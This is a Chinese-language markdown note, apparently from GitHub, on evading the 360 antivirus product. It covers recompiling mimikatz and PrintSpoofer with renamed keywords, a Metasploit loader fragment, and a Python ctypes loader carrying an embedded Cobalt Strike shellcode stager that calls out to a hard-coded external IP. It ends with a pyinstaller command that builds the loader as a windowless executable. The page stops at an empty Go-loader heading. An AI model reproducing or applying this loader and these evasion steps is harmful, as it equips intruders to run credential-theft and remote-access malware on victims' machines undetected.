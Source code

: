 # 免杀小技巧

## 0x01 mimikatz免杀过360安全卫士和360安全杀毒

#### 1 编译开始

![image-20210314235003821](https://i.loli.net/2021/03/14/VDPgbNSf2RQ4kqX.png)

![image-20210314235138733](https://i.loli.net/2021/03/14/olaFPBZ1sYwVvK9.png)

![image-20210314235155567](https://i.loli.net/2021/03/14/EjXu3U4f1ZGcmOg.png)

![image-20210314235348127](https://i.loli.net/2021/03/14/yV9wNMLqdvI6AJ5.png)

生成了x64位。

![image-20210314235638839](https://i.loli.net/2021/03/14/VkMrn9jcagTSGPh.png)

#### 2 免杀

##### (1) 关键字替换大法。将其中的所有关键字替换成为我的ID。

![image-20210314235827009](https://i.loli.net/2021/03/14/3sYRAKlp2JGCLaw.png)

![image-20210315000103977](https://i.loli.net/2021/03/15/kbzAv9wnSI48qBr.png)

全部都需要更改

## 0x02 PrintSpoofer 过360

#### 1.编译

![image-20210315001806744](https://i.loli.net/2021/03/15/goXr3ZSY4t7Huma.png)

这样可以去掉哪些奇怪的dll文件。

#### 2. 免杀

所有关键字的修改

注释信息删除

加一个ico图标

![image-20210315002815924](C:\Users\Crawler\AppData\Roaming\Typora\typora-user-images\image-20210315002815924.png)

## 0x03 MSF用加载器过360

```
if (argc != 3) {
		printf("%s [host] [port]\n", argv[0]);
		exit(1);
	}
```

```
编译
i686-w64-mingw32-gcc main.c -o mm.exe -lws2_32

```

![image-20210315233836996](https://i.loli.net/2021/03/15/sNbOZCPa3BVrxJD.png)

绕过AV

![image-20210315235118316](https://i.loli.net/2021/03/15/ulSCepQD9MHnPiG.png)

![image-20210315235323918](https://i.loli.net/2021/03/15/WNwQHgkX2GS9FZr.png)

![image-20210315235358689](https://i.loli.net/2021/03/15/huMf5tr3zlZnBmk.png)

![image-20210315235439732](https://i.loli.net/2021/03/15/Tl2LQGayoSdMvhr.png)

![image-20210315235754189](https://i.loli.net/2021/03/15/1UJyR2I38C5LQcP.png)

## 0x04 python3 免杀CS 过360

```
import ctypes
# length: 892 bytes
buf = b"\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75\x72\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4f\xff\xff\xff\x5d\x6a\x00\x49\xbe\x77\x69\x6e\x69\x6e\x65\x74\x00\x41\x56\x49\x89\xe6\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x48\x31\xc9\x48\x31\xd2\x4d\x31\xc0\x4d\x31\xc9\x41\x50\x41\x50\x41\xba\x3a\x56\x79\xa7\xff\xd5\xeb\x73\x5a\x48\x89\xc1\x41\xb8\x50\x00\x00\x00\x4d\x31\xc9\x41\x51\x41\x51\x6a\x03\x41\x51\x41\xba\x57\x89\x9f\xc6\xff\xd5\xeb\x59\x5b\x48\x89\xc1\x48\x31\xd2\x49\x89\xd8\x4d\x31\xc9\x52\x68\x00\x02\x40\x84\x52\x52\x41\xba\xeb\x55\x2e\x3b\xff\xd5\x48\x89\xc6\x48\x83\xc3\x50\x6a\x0a\x5f\x48\x89\xf1\x48\x89\xda\x49\xc7\xc0\xff\xff\xff\xff\x4d\x31\xc9\x52\x52\x41\xba\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x0f\x85\x9d\x01\x00\x00\x48\xff\xcf\x0f\x84\x8c\x01\x00\x00\xeb\xd3\xe9\xe4\x01\x00\x00\xe8\xa2\xff\xff\xff\x2f\x36\x6f\x68\x50\x00\x4b\xf6\x3b\x5c\x35\xed\x7d\xe2\xbc\xc2\x10\xd8\xbd\x7e\xc0\xa7\x27\x5e\xac\x82\xe4\xd2\xa8\x75\xa6\xdf\x67\x94\xad\x9e\x9a\xb1\x44\x4f\x18\xfe\x0d\x93\xb5\xfd\x9f\x6f\x4e\xc5\xd4\x29\x4c\x21\x25\x0b\x55\xf6\x64\xfe\x5c\x0d\xdd\x86\x97\x50\xfd\x24\x2f\x43\x2f\x4d\x8c\x9c\xd5\xae\x68\xb1\xf0\x00\x55\x73\x65\x72\x2d\x41\x67\x65\x6e\x74\x3a\x20\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x35\x2e\x30\x20\x28\x63\x6f\x6d\x70\x61\x74\x69\x62\x6c\x65\x3b\x20\x4d\x53\x49\x45\x20\x39\x2e\x30\x3b\x20\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x36\x2e\x31\x3b\x20\x54\x72\x69\x64\x65\x6e\x74\x2f\x35\x2e\x30\x3b\x20\x58\x42\x4c\x57\x50\x37\x3b\x20\x5a\x75\x6e\x65\x57\x50\x37\x29\x0d\x0a\x00\x05\xb1\x73\xbf\x3c\x6c\x1b\x00\xb6\x44\x98\x34\xfa\xf2\x9a\xdb\x12\xeb\x28\xad\x9b\xd0\xad\x6e\x13\x64\x4f\x73\xc9\xe6\x1d\xed\x4e\x64\x9b\x5d\xc9\x63\xc1\xa1\x04\x34\xc1\x38\x4a\x07\x9a\x1d\xe8\xb0\x8f\xb9\x6d\x9f\x42\xa5\xc6\xfa\xbe\xb8\xaa\x1d\x8b\x65\xec\x2e\x7f\x7f\x39\x79\x41\x28\x9c\xf6\x86\x15\x46\x83\xcc\x9d\xbd\xa7\x89\x7c\x48\xf3\x47\xe4\x8b\x09\x3c\xb0\xfc\xba\xc4\x86\x60\x26\xcf\xca\x85\x71\xf9\x17\x6d\x81\xcb\xe9\x92\x1b\x19\x02\x7b\x5a\x0e\x6a\xb9\x65\x46\x88\x9e\xf4\xfb\x40\xe0\x99\x1c\x14\x7a\xcb\x9d\xf4\x0c\xa7\x58\x17\x53\xee\x7d\x06\x11\xa7\x6d\x98\xe7\xf7\xd8\x87\xb6\x53\x56\xfd\xc8\x15\x7f\x7a\xd8\x68\xb7\x0f\x34\xc6\xd8\x69\x03\x2d\x76\x03\x7d\xe8\xd1\xb9\xb4\x11\xbe\xab\x43\x43\xcd\x46\x22\xac\x88\x9a\xe4\x6c\x53\x0c\xed\x58\xec\xc2\x2c\x49\x21\xbe\x9c\x81\x68\xd6\x1e\x0f\x0b\x41\x8a\x97\x50\x15\x00\x41\xbe\xf0\xb5\xa2\x56\xff\xd5\x48\x31\xc9\xba\x00\x00\x40\x00\x41\xb8\x00\x10\x00\x00\x41\xb9\x40\x00\x00\x00\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x93\x53\x53\x48\x89\xe7\x48\x89\xf1\x48\x89\xda\x41\xb8\x00\x20\x00\x00\x49\x89\xf9\x41\xba\x12\x96\x89\xe2\xff\xd5\x48\x83\xc4\x20\x85\xc0\x74\xb6\x66\x8b\x07\x48\x01\xc3\x85\xc0\x75\xd7\x58\x58\x58\x48\x05\x00\x00\x00\x00\x50\xc3\xe8\x9f\xfd\xff\xff\x34\x32\x2e\x31\x39\x32\x2e\x31\x34\x32\x2e\x36\x34\x00\x12\x34\x56\x78"
#shellcode加载
def shellCodeLoad(shellcode):
    ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64
    ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0), ctypes.c_int(len(shellcode)), ctypes.c_int(0x3000),ctypes.c_int(0x40))
    buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
    ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_uint64(ptr),buf,ctypes.c_int(len(shellcode)))
    handle = ctypes.windll.kernel32.CreateThread(ctypes.c_int(0),ctypes.c_int(0),ctypes.c_uint64(ptr),ctypes.c_int(0),ctypes.c_int(0),ctypes.pointer(ctypes.c_int(0)))
    ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(handle), ctypes.c_int(-1))

if __name__ == "__main__":
    shellCodeLoad(bytearray(buf))
```

```
pyinstaller -F .\theone.py --noconsole -i换图标
```

## 0x05 Golang加载器 免杀cs

